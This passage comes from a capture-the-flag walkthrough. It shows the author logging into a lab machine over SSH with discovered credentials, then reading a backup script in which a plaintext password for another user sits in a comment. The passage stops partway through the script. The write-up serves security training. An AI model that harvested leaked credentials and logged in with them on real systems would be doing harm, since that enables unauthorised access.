 <br>

That gives us the answer to the sixth objective: **The interesting file name in the folder?**

<br>

## Basterd

Now that we found some credentials let's see if we can ssh in as the user.

`ssh basterd@10.10.243.232 -p 55007`

```
basterd@10.10.243.232's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ whoami
basterd
$ hostname
Vulnerable
```

We finally have access to the system. Let's explore.

Looking in his home directory you see the following file:

```
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
```

Looking inside:

```
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
```